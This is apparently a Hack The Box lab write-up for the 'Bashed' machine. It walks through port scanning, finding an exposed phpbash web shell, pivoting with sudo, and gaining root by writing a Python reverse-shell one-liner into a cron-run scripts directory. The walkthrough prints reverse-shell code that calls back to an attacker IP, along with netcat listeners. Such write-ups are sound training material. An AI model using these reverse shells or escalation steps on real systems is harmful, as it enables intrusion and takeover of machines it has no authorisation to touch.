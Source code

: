 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01]()


## Recon

I start by adding the target to my `/etc/hosts` file. Then i use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02()


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03]()


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04]()


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05]()

Sounds useful, lets see how to use this tool:

![usage-06]()

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.[67/1995$
 -u http://bashed.htb/FUZZ
```

![dev-07]()

This `dev` directory looks promising, lets check it out:

![dev-dir-08]()

Here it is, if we click it we get access to the system:

![shell-09]()

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10]()

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11]()


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12]()

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13]()

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14]()


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15]()


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16]()

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file ownedby root we saw before in our current directory. The fact taht the file is owned by root tells me there is a task running in the background periodically as the root user, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17]()


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18]()

